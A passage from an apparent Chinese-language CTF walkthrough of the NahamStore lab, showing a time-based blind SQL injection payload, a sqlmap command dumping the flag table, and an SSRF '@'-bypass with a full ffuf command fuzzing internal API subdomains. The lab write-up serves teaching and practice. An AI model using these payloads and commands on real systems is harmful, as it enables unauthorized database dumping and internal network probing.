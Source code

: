 后台退货处

![在这里插入图片描述](https://img-blog.csdnimg.cn/7583568bfe6f4df78fd92668c8255cc2.png)

随便输了点东西，看这个回显，看到order number我一下联想到sql注入

![在这里插入图片描述](https://img-blog.csdnimg.cn/f061616ad38f4c9997a936ead12e0b4d.png)

果然，时间盲注，POC:

	-1;  select * from  sqli_two where flag like '{212%' or sleep(5);--

爆字符这种无聊的事情就交给sqlmap去做吧

	sqlmap -r ./req -D nahamstore -T sqli_two -C flag --dump

![在这里插入图片描述](https://img-blog.csdnimg.cn/dcdb8f8929774807a1a02e22112ca60f.png)

## SSRF

在商品的“check stock”按钮，发现该请求的参数包含一个域名，使用@符绕过成功访问到攻击机

![在这里插入图片描述](https://img-blog.csdnimg.cn/24f955a99c3f44ac828fbe3b68b11cac.png)
在stock.nahamstore.thm中也没有什么发现，

我对着所有子域以及进行了目录扫描，均没有发现什么

所以可以猜测stock.nahamstore.thm调用内部的api，现在有ssrf，我们可以利用其来帮助我们探测内部信息

一开始我直接对着server开冲，结果ffuf扫了上百万条都没扫出来

	server=stock.nahamstore.thm@FUZZ.nahamstore.thm

然后我又去看看题目：

- 应用程序存在 SSRF 漏洞，请参阅如何利用它来查看不应可用的 API。

也就是说子域名字包含api，但又不是api那么有可能是：

	xxx-api.nahamstore.thm

然后又开扫，又没扫出来，然后我打开wireshark，发现全是：

	 504 Gateway Time-out
	 又或者 Bad Gateway

我仔细想了想，然后在扫描的过程中访问nahamstore.thm，发现也访问不进去了

**这时候我懂了，扫描变ddos了，直接给它给d死了**

然后我将ffuf线程数降低到10以下，虽然很慢很卡，但至少不死，至少还有响应回来

![在这里插入图片描述](https://img-blog.csdnimg.cn/eec56121f85848bf8837a02c3994c9bb.png)

成功扫到，即internal-api子域

payload:

	ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://nahamstore.thm/stockcheck' -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ-api.nahamstore.thm' -H 'Host: nahamstore.thm' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -t 5
